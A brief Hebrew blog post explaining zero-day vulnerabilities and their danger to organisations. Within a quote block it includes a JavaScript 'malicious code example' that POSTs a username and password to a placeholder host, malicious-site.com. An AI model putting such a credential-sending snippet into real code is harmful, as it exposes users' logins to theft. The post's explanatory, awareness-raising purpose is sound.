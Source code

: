 # פגיעויות יום אפס: מהן וכיצד הן משפיעות על אבטחת הסייבר

**פורסם בתאריך**: 28 באוגוסט 2024  
**מאת**: Ofir P.  
**נושא**: A little bit on Zero-Day

---

פגיעויות יום אפס (Zero-Day Vulnerabilities) הן אחד מהאיומים החמורים ביותר בעולם הסייבר. במאמר זה נחקור מהן פגיעויות יום אפס, כיצד הן מתגלות, וההשפעות הרבות שיש להן על אבטחת המידע בארגון.

## מהי פגיעות יום אפס?

פגיעות יום אפס היא פרצה או חולשה בתוכנה או בחומרה שטרם התגלתה על ידי המפתחים. האקרים מנצלים פגיעויות אלו באופן מהיר, לפני שהמפתחים יכולים לשחרר תיקון או עדכון.

### תכונה מרכזית:

- **חדשנות התקפה**: פגיעות יום אפס נוצרת כאשר הקהילה או החברה טרם מודעת לבעיה. זה יוצר חלון זמן מסוכן שבו ההאקרים יכולים לפעול.

```quote
"החולשה הכי מסוכנת היא זו שאיננו יודעים על קיומה." — חוקר אבטחת מידע

// קוד זדוני לדוגמה
fetch('https://malicious-site.com/exploit', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
  },
  body: JSON.stringify({
    username: 'victim',
    password: 'password123'
  })
})
.then(response => response.json())
.then(data => console.log('Exploited successfully:', data))
.catch(error => console.error('Error:', error));
```
"אל תמתין לפרצה הבאה - הקדם תרופה למכה." — מומחה לאבטחת מידע

